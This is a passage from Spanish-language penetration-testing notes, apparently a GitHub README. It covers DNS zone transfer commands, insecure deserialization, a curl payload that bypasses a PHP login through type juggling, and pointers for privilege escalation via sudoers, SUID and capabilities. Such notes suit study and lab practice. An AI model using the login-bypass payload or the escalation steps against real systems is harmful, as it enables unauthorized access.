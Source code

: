 Tenemos diferentes programas para realizar el ataque, su sintaxis serían las siguientes:

 - dnsenum

```bash
dnsenum --enum {IP}
```

 - dig
 
```bash    
dig @{IP} {URL} axfr     
```

## Vulnerabilidades de tipo Insecure Deserialization

Para comprender qué es la deserialización insegura, primero debemos comprender qué son la serialización y la deserialización.

 - La serialización se refiere a un proceso de conversión de un objeto a un formato que puede conservarse en el disco (por ejemplo,   guardarse en un archivo o almacén de datos), enviarse a través de secuencias (por ejemplo, stdout) o enviarse a través de una re   d. El formato en el que se serializa un objeto puede ser binario o texto estructurado (por ejemplo, XML, JSON YAML…). JSON y XML   son dos de los formatos de serialización más utilizados dentro de las aplicaciones web.

 - La deserialización, por otro lado, es lo opuesto a la serialización, es decir, transformar datos serializados provenientes de un   archivo, flujo o conector de red en un objeto.

[Más información](https://www.acunetix.com/blog/articles/what-is-insecure-deserialization/)

## Vulnerabilidad Type Juggling sobre panel Login

Este tipo de vulnerabilidad se da en archivos .php que usan tablas comparativas para logearse, se pede romper con este comando:
```bash
curl -s -X POST --data "usuario=&password[]=" {IP/}
```

# Escala de privilegios

## Abuso del Sudoers para escalar privilegios

Para escalar privilegios debemos listar los permisos, investigando en [GTFobins](https://gtfobins.github.io/) encontramos la manera de acceder como root

## Abuso de permisos SUID para escalar privilegios

Listamos si tenemos privilegios SUID con el comando `find / -perm -4000 2>/dev/null` y buscamos en la anterior página si hay una vulnerabilidad. 
[SUID](https://www.luisguillen.com/posts/2017/12/como-funcionan-permisos-suid/)

## Abuso de las Capabilities para escalar privilegios
